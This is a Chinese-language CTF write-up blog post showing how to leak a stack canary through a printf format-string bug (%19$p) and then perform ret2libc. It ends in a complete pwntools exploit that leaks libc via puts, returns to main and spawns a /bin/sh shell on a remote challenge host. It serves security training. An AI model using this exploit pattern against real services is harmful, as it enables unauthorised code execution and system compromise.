





---
title: "Canary绕过专题(2)——格式化字符串泄露"
published: 2025-11-01
description: "格式化字符串泄露Canary 检查一下安全机制 再看看IDA 跟上一道题差不多，但第一个 read只能读取5字节 我们主要还是关注后面的 printf 使用 printf的关键是找栈上的偏移 我们在gdb里运行到Canary在栈上被布置后，"
image: "../Canary.png"
tags: [CTF, Pwn]
category: CTF
draft: false
slug: canary-bypass-2-format-string-leak
---# 格式化字符串泄露Canary

检查一下安全机制



再看看IDA



跟上一道题差不多，但第一个 `read`只能读取**5字节**

我们主要还是关注后面的 `printf`

使用 `printf`的关键是找栈上的**偏移**

我们在gdb里运行到Canary在栈上被布置后，查看栈内容



发现Canary在**0x7fffffffdc80 + 0x8**的位置

用 `fmtarg`（需先安装pwngdb，并设置与pwndbg联动使用）计算出Canary的偏移是**19**



测试一下，没问题



这里要注意，**%19$p**已经有五个字节了，如果使用 `sendline`来发送payload，多出来的换行符会直接用于下一个 `read`，导致程序提前结束

泄露Canary后就是常见的**ret2libc**思路

先把**libc**和**ld**绑定一下

```bash
$patchelf --set-interpreter ./ld-linux-x86-64.so.2 ./canary
```

```bash
$patchelf --replace-needed libc.so.6 ./libc.so.6 ./canary2 $ 
```

用 `puts`来泄露libc地址，再用pwntools自动查找地址

但第二次输入机会被我们用来泄露libc了，所以payload2要**返回main函数**，再泄露一次Canary

最终exp如下：

```python
from pwn import *
context.arch = 'amd64'
context.log_level = 'debug'
elf = ELF('./canary2')
libc_elf = ELF('./libc.so.6')
p = remote("ip",port)
#gdb.attach(p)

p.recvuntil(b'say:\n')
p.send(b'%19$p')
p.recvuntil(b'0x')
canary = int(p.recv(16),16)
success(f"Canary Leaked: {hex(canary)}")

ret = 0x40101a
pop_rdi = 0x401223
put_plt = elf.plt['puts']
put_got = elf.got['puts']
main = elf.symbols['main']

payload2 = b'A'*104 + p64(canary) + b'B'*8 + p64(pop_rdi) + p64(put_got) + p64(put_plt) + p64(main)

p.sendline(payload2)
p.recvuntil("Bye~\n")
libc_base = u64(p.recv(6).ljust(8,b"\x00")) - libc_elf.sym["puts"]
system = libc_base + libc_elf.sym['system']
binsh = libc_base + next(libc_elf.search(b'/bin/sh'))
success(f"Libc base: {hex(libc_base)}")
success(f"System: {hex(system)}")
success(f"/bin/sh: {hex(binsh)}")

p.recvuntil(b'say:\n')
p.send(b'%19$p')
p.recvuntil(b'0x')
canary2 = int(p.recv(16),16)

payload3 = b'A'*104 + p64(canary2) + b'B'*8 + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)

p.sendline(payload3)

p.interactive()
```
